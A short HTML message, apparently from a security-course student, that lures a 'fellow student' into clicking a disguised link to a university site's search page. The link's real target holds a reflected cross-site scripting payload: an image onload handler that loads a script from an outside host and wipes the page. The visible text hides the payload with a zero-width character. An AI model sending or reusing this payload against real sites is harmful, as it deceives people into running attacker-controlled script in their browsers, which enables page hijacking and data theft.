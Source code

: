 Hey, fellow student! Check out this awesome professor that I found.

<a href="http://www.se.rit.edu/search/node/Daniel+Krutz&lt;img+src=http:&amp;%2347;&amp;%2347;www.se.rit.edu&amp;%2347;sites&amp;%2347;all&amp;%2347;themes&amp;%2347;se&amp;%2347;assets&amp;%2347;img&amp;%2347;se-logo.png+style=display:none+onload=if(typeof(xssScript)&amp;%2361;&amp;%2361;&quot;undefined&quot;){var&nbsp;xssScript=document.createElement(&quot;script&quot;);xssScript.setAttribute(&quot;src&quot;,&quot;http:&amp;%2347;&amp;%2347;benwoodworth.net&amp;%2347;school&amp;%2347;swen-331&amp;%2347;se-xss.js&quot;);document.body.innerHTML=&quot;&quot;;document.body.appendChild(xssScript);}&gt;">
  ht&zwnj;tp://www.se.rit.edu/search/node/Daniel+Krutz
</a>  
(You should most definitely open this link in FireFox, because reasons)
